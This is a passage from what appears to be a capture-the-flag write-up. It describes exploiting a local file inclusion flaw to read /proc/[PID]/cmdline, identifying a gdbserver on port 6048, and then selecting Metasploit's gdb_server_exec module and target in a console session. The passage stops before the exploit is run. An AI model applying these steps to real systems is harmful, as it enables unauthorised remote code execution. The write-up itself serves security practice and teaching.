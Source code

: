The script constructs a URL for each PID, targeting the vulnerable page parameter to read the file `/proc/[PID]/cmdline`. It then sends an HTTP GET request to the server. If the file exists and is accessible, the server returns the contents of that file, which I clean up by replacing null bytes with spaces for readability.

By printing the PID alongside its command line, I can visually scan for any processes related to my target port. For example, if I see a process whose command line mentions the `port number 6048` or an application typically known to bind that port, I can identify the service running there.

This approach is practical because directly mapping ports to processes through `/proc/net/tcp`and matching inodes via LFI would be more complex and require additional steps that may not be feasible or efficient through LFI.

In summary, I leveraged the predictable structure of the Linux /proc filesystem and the LFI vulnerability to enumerate running processes and infer which one corresponds to the network service listening on the port of interest which is 

```
529 : /usr/bin/gdbserver 0.0.0.0:6048 airplane

```

## Exploiting gdbserver


Knowing that gdbserver was running, I opened **Metasploit** and searched for available exploits:

```console
msf6 > search gdb

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/gdb/gdb_server_exec               2014-08-24       great      No     GDB Server Remote Payload Execution
   1    \_ target: x86                                .                .          .      .
   2    \_ target: x86_64                             .                .          .      .
   3    \_ target: ARMLE                              .                .          .      .
   4    \_ target: AARCH64                            .                .          .      .
   5  exploit/linux/local/ptrace_sudo_token_priv_esc  2019-03-24       excellent  Yes    ptrace Sudo Token Privilege Escalation

```

The module I chose is `exploit/multi/gdb/gdb_server_exec`.
This exploit allows for remote code execution via an open **gdbserver**. I selected the correct target architecture (x86_64):

```
msf6 exploit(multi/gdb/gdb_server_exec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   x86
    1   x86_64
    2   ARMLE
    3   AARCH64


msf6 exploit(multi/gdb/gdb_server_exec) > set TARGET 1
TARGET => 1
```